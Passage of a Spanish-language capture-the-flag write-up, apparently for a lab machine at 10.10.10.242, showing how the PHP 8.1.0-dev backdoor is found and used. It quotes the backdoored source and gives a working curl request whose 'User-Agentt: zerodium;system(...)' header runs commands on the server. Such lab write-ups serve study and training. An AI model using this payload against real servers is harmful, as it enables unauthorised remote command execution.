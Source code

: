 Encontramos una interfaz bastante simple, sin posibilidad de interactuar con ella ni movernos por ahí...

Buscando vulnerabilidades relacionadas con `Apache 2.4.41` no encontramos nada útil. 

...

# Explotación [#](#explotacion) {#explotacion}

Jugando con **Wappalyzer** (extensión web) vemos que el servidor web cuenta con el servicio **PHP** en su versión `8.1.0`, buscando en internet vulnerabilidades sobre ella, encontramos una interesante:

* [**PHP 8.1.0-dev** Backdoor Remote Command Injection](https://packetstormsecurity.com/files/162749/PHP-8.1.0-dev-Backdoor-Remote-Command-Injection.html).
* [**PHP 8.1.0-dev** - 'User-Agentt' Remote Code Execution](https://www.exploit-db.com/exploits/49933).

Usándola podremos conseguir ejecución remota de comandos aprovechándonos de la función [zend_eval_string()](https://flylib.com/books/en/2.565.1/calling_back_into_php.html) (que puede ejecutar pequeños fragmentos de código en el sistema) de **PHP**, el código vulnerable es este:

```php
...
  convert_to_string(enc);
  if (strstr(Z_STRVAL_P(enc), "zerodium")) {
    zend_try {
      zend_eval_string(Z_STRVAL_P(enc)+8, NULL, "REMOVETHIS: sold to zerodium, mid 2017");
...
```

Donde prácticamente lo que hace es:

1. Pasa (según el nombre de la función) lo que llegue (`enc`) a cadena de texto.
2. Si ese contenido (`enc`) a la primera encuentra ([strstr](https://www.php.net/manual/es/function.strstr.php)) la cadena "**zerodium**" en `enc`.
3. Entra a ejecutar ([zend_eval_string](https://flylib.com/books/en/2.565.1/calling_back_into_php.html)) el contenido de `enc`.
  * Así que simplemente deberíamos aprovechar que entre en esta función e indicarle que nos ejecute algo (con ayuda de `system()` o `exec()` o `shell_exec` o lo que sea :P)

Esto tiene que hacerse con el header `User-Agentt`, donde su contenido sea el que contenga **zerodium...**, siguiendo los **pocs** vemos que su explotación es muy sencilla, podemos jugar con `curL` y probar:

---

## Jugamos con la vulnerabilidad de <u>PHP 8.1.0</u> [📌](#expl-revsh-james) {#expl-revsh-james}

Por ejemplo, si queremos ejecutar el comando `whoami`, haríamos:

```bash
❱ curl -s http://10.10.10.242/ -H 'User-Agentt: zerodium;system("whoami");' | head -n 1
james
```
